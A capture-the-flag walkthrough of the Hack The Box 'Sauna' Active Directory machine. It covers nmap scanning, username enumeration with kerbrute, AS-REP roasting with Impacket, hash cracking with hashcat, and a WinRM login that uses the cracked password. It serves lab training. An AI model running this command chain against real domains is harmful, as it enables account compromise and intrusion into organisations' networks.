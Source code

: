 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Sauna", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1583416750470-965b2707b355?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxzYXVuYXxlbnwwfHx8fDE3MDk1OTQ5MDR8MA&ixlib=rb-4.0.3&q=85
coverY: -56.01639344262295
---
```


# 🧖‍♂️ Sauna

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.175

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 20:24 -03
Nmap scan report for 10.10.10.175
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-05 06:24:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2024-03-05T06:24:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.50 seconds
```



## Enumeration

Let's try enumerating SMB first. For this. we'll use "_smbclient_" with anonymous credentials and no password:

```bash
smbclient -L \\\\10.10.10.175\\ -N
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption><p>No File Shares listed for anonymous login</p></figcaption></figure>

As we can see, there are no File Shares listed for anonymous login, so we should take another route.

On Port 80, we can see a website that displays, on the "About Us" page, the names of the people in the "Egotistical Bank" Team.



## Exploitation

We can grab these usernames and create a list with all possible usernames for everyone in the team and try to see if any of these usernames are valid. To do this, we'll use a tool called "[_Username Anarchy_](https://github.com/urbanadventurer/username-anarchy)" and create a list of usernames.

First, let's create a list with all the names we found on the website.

```bash
subl employees.txt
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption><p>Egotistical Bank Employee List</p></figcaption></figure>

Now, let's use "_Username-Anarchy_" to create a list of probable usernames in the Domain:

```bash
./username-anarchy -i <path/to/employee list> > ~/htb/sauna/usernames.txt
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption><p>Username List</p></figcaption></figure>

Once we have a username list, we need to make sure which of these usernames are valid usernames in the Domain. To validate usernames on a domain, we can use a tool called "[_Kerbrute_](https://github.com/ropnop/kerbrute)":

```bash
# After downloading one of the releases designed for your specific architecture:
./kerbrute userenum -d egotistical-bank.local --dc 10.10.10.175 ~/htb/sauna/usernames.txt  
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Valid username from Kerbrute</p></figcaption></figure>

Once we get a valid username, there are a few things we can try, one of them being an ASREPRoasting attack, which will [automatically find accounts that do not require pre-authentication and extract their AS-REP hashes for offline cracking](https://blog.netwrix.com/2022/11/03/cracking\_ad\_password\_with\_as\_rep\_roasting/).

To perform this attack, we'll need to use one of Impacket's tools, known as "_GetNPUSers.py"_:

```bash
GetNPUsers.py egotistical-bank.local/fsmith -format hashcat -dc-ip 10.10.10.175
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>fsmith's AS-REP hash</p></figcaption></figure>

Now we can take this hash and try to crack it with "_hashcat_":

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>fsmith's password</p></figcaption></figure>

### User Flag

Now that we have a username and a password, there are a few things we can do. Generally speaking, we don't really need to get a shell on the system to compromise the Domain Controller, although, it can sometimes be useful.&#x20;

In this case, we should get a shell to be able to grab the User's flag:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

